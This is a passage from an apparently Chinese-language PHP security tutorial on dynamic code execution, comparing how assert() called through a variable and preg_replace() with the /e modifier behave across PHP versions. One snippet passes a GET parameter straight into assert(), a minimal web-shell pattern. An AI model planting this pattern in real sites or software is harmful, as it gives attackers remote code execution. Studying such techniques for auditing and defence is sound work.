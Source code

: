 以上两种调用方法在php7.0.29版本之前都测试成功，7.0.29版本之后又动态调用的方法无法成功。

在7.0.29版本之后发现的奇怪的一点

```php
<?php

error_reporting(0);

//?a=phpinfo()
$a = 'assert';
$a($_GET['a']);
//phpinfo()无法执行成功
```

```php
<?php

error_reporting(0);

$a = 'assert';
$a(phpinfo());
//成功执行phpinfo()
```

```php
<?php

error_reporting(0);

$a = 'assert';
$b = phpinfo();
$a($b);
//成功执行phpinfo()
```

### preg_replace()

> mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )

preg_replace 执行一个正则表达式的搜索和替换。

执行代码需要使用`/e`修饰符。如果不使用`/e`修饰符，代码则不会执行

```php
$a = 'phpinfo()';
$b = preg_replace("/abc/e",$b,'abcd');
```

```php
<?php

error_reporting(0);

$a = 'phpinfo()';
$b = preg_replace("/abc/e",$a,"abcd");
```


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128